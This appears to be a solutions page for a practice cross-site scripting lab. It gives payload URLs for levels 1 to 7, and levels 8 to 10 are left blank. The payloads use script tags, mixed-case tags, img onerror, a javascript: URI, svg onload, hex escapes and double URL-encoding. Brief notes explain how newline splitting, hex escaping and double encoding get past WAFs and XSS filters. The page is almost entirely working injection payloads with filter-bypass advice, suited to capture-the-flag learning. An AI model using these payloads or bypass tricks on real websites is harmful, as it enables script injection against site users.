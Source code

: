 Level 1: [http://www.zixem.altervista.org/XSS/1.php?name=<script>alert(1337)</script>](https://zixem.altervista.org/XSS/1.php?name=%3Cscript%3Ealert(1)%3C/script%3E) \
Level 2: [http://www.zixem.altervista.org/XSS/2.php?name=<scrIpt>alert(1337)</scrIpt>](https://zixem.altervista.org/XSS/2.php?name=%3CscrIpt%3E%20alert(1)%3C/scrIpt%3E) \
Level 3: [https://zixem.altervista.org/XSS/3.php?name=zxm%0A`<img src=”x” onerror=alert(1337)>`](https://zixem.altervista.org/XSS/3.php?name=zxm%0A%3Cimg%20src=%E2%80%9Dx%E2%80%9D%20onerror=alert(1337)%3E) \
  Using %0A URL-encoded representation of a newline character (Line Feed, LF, \n) in ASCII and UTF-8 encoding. \
  Some WAFs only scan for dangerous keywords within a single line. If an attack payload is split across multiple lines \
  (e.g., using %0A for a newline), the filter may fail to detect it, allowing bypass techniques for XSS, SQLi, and other attacks. \
Level 4: [http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20](http://zixem.altervista.org/XSS/4.php?img=htp.pngd'onerror=alert(1337)%20) \
Level 5: https://zixem.altervista.org/XSS/5.php?name=zxm&action=javascript:alert(1337) \
Level 6: https://zixem.altervista.org/XSS/6.php?name=\x3Csvg/onload=alert(1337)\x3E or 
[https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src="x" onerror=alert(1337)\x3E](https://zixem.altervista.org/XSS/6.php?name=\x3Cimg/src=%22x%22%20onerror=alert(1337)\x3E) \
\x3E and \x3C are hexadecimal escape sequences used in programming languages like JavaScript and C. \
These can be used to bypass WAFs or XSS filters by encoding < and > in attack payloads. \
Level 7 : https://zixem.altervista.org/XSS/7.php?name=zxm%253Cscript%253Ealert(1337)%253C/script%253E \
Double encode < (%253C) and (%253E)> for use in an XSS payload, need to encode them twice using URL encoding \
Level 8 : \ 
Level 9 : \
Level 10 :

